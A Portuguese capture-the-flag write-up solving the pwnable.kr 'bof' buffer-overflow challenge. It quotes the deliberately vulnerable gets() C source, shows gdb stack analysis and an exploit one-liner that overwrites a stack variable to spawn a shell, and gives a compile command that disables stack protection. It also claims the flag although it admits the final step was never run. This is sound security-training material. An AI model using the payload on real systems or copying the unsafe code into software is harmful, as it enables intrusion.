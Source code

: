 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

O primeiro passo para executar esse desafio é baixar tanto o executável `bof` quanto o código-fonte `.c`. Com isso, é possível analisar o código em C para compreender seu funcionamento e direcionar os esforços corretamente.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Após a análise do código, observa-se que o objetivo é alcançar a linha `system("/bin/sh")`, permitindo o acesso a uma interface onde possivelmente estará a flag. Para atingir esse ponto, a variável `key` deve conter o valor `0xcafebabe`. Como a função `gets` é vulnerável a buffer overflow, pode-se explorar essa vulnerabilidade para sobrescrever a memória. No entanto, antes de qualquer ação, é necessário mapear a stack para inserir as informações no local correto.

O primeiro passo é conceder permissão de execução ao `bof` com o seguinte comando:

```
chmod +x bof
```

Em seguida, executa-se o programa:

```
./bof
```

Para analisar a estrutura da memória, utiliza-se a ferramenta `gdb` com o comando:

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

Para verificar se a vulnerabilidade de buffer overflow de fato existe, pode-se inserir uma entrada maior que os 32 bytes da variável `overflowme`, somados aos 8 bytes do base pointer. Dessa forma, é possível atingir alguma área específica da memória e observar eventuais erros.

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

O software GDB acusou um erro denominado `stack smashing detected`, indicando que a stack foi corrompida. Essa informação confirma que o código é vulnerável a buffer overflow. A partir desse ponto, a análise pode prosseguir para localizar as informações que precisam ser manipuladas na memória.

Utiliza-se o comando `(gdb) disas <função_analisada>` para analisar as funções `main` e `func`:

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

Na `main`, observa-se que o valor `0xdeadbeef` é passado para a função `func` no momento da chamada.

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

Já na `func`, identifica-se o valor `0xcafebabe`, que precisa ser inserido na variável key para acessar `system("/bin/sh")`. Com essas informações em mãos, o próximo passo é interromper a execução quando a função `gets` for chamada, utilizando o comando `break gets`.
Após definir o breakpoint, executa-se o código com `run`. O programa aguardará a entrada do usuário ao alcançar `gets`. Ao inserir `next` e prosseguir com um valor, é possível identificar o endereço de memória onde a execução continua.

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

Em seguida, confirma-se a localização dos dados em `ebp+8` e `ebp-0x2c`, onde a entrada do usuário foi armazenada.

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

Com esses valores, calcula-se a distância entre eles para determinar quantos bytes precisam ser escritos até atingir a variável `key` e realizar a comparação desejada.

![image](https://github.com/user-attachments/assets/1f67f213-4ef6-46db-8cbf-85da81d03e7a)

Agora, com todas as informações necessárias, basta executar o comando que insere 52 bytes de padding (`NOPs`) seguidos pelo valor `0xcafebabe` na variável `key`, garantindo o acesso à `system("/bin/sh")`.

```(python -c "print '\x90'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

Por fim, executa-se o comando para capturar a flag (`Os próximos passos não foram executados porque o sistema estava fora do ar`):

```
cat flag
```

> Assim, obtemos a flag `daddy, I just pwned a buFFer :)`


<!--

TIRAR CANARY
```
gcc -fno-stack-protector -z execstack -no-pie -o bof bof.c
```

![image](https://github.com/user-attachments/assets/50d458d7-5525-4248-b460-442361f6351f)

![image](https://github.com/user-attachments/assets/c18595e5-ba5a-4f99-9f7b-21f4e246069d)

![image](https://github.com/user-attachments/assets/cdf1fbca-ef25-49ba-bb03-881f63d7157a)
 
 -->



